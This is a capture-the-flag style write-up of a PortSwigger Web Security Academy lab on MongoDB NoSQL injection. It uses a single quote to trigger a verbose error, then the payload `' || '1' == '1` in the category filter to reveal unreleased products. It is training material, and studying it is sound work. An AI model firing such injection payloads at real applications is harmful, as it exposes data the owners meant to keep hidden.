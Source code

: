 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/fe4268c0-9213-4fe3-9ac4-924358e0a73a)

## Solution :

When we select a category, the URL looks as follows.

```
https://0afa00c303a959438002801500a90058.web-security-academy.net/filter?category=Pets
```

The backend MongoDB query might look something like - 
```mongodb
this.category == 'fizzy'
```

Injecting an single quote (`'`) , makes the application to throw an verbose error, which says that it uses mongodb in the backend.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4599afe2-d810-4fa3-905b-95b29087c343)


So we can use operator injection to evaluate the query to true & display all the products(both released & not released). - `' || '1' == '1`

The query will now be executed as follows
```mongodb
this.category == 'fizzy' || '1'=='1'
```

Now we can see all the items & the lab is solved.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a02ad56b-22cb-44d0-a9ff-1e523ec88ee3)
